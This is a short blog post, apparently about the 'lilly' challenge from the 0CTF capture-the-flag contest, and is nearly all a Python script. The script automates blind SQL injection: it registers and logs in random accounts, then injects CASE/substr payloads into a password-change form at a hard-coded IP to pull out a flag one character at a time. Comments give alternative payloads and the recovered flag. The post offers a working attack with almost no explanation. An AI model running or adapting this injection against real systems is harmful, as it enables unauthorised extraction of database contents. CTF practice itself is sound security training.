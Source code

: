 ```yaml
---
title: lilly
author: tank96a
layout: post
categories:
  - article
tags:
  - sqli
  - python
---
```


非常不错的爆破脚本

{% highlight python %}
import requests, random, string

# password='=(select  CASE WHEN length(flag)=26 THEN  1 ELSE 1 MATCH '(' END from flag)='
# password='=(select  CASE WHEN substr(flag, 1, 1)='1' THEN  1 ELSE 1 MATCH '(' END from flag)='
# charset = string.digits + "_" + string.letters + "{}"
#0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
# charset = [chr(i) for i in range(256)]
charset = string.printable

#SELECT CASE 3 WHEN 1 THEN 'one' WHEN 2 THEN 'two' ELSE 'more' END;
sql_template = "'=(select  CASE WHEN substr(flag, %d, 1)='%s' THEN  1 ELSE (1 match 1) END from flag)='"
s = requests.Session()

#finally we get the flag = '0CTF{R0t_?_S8rRy_1_doNt_N}'
flag=''

while 1:
	# gen creds
	creds = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(10))
	
	data = {'username': creds,'password':creds, 'email':creds}
	# register
	r = s.post("http://202.112.28.113:5000/register", data=data)
	if r.text.find("Now You can log in:") == -1:
		continue
		
	# login
	r = s.post("http://202.112.28.113:5000/login", data=data)
	if r.text.find("Modify password") == -1:
		continue
	
	# inject
	i = len(flag) + 1
	print i, 
	for c in charset:
		if c == '-' or c == '/':
			# blacklisted shit !
			continue
		
		data['password'] = sql_template % (i, c)
		r = s.post("http://202.112.28.113:5000/modify", data=data)

		if r.text.find("HAHAHA,YOUR PASSWORD HAS BEEN UPDATED") != -1:
			flag += c
			print repr(flag)
			break
{% endhighlight %}
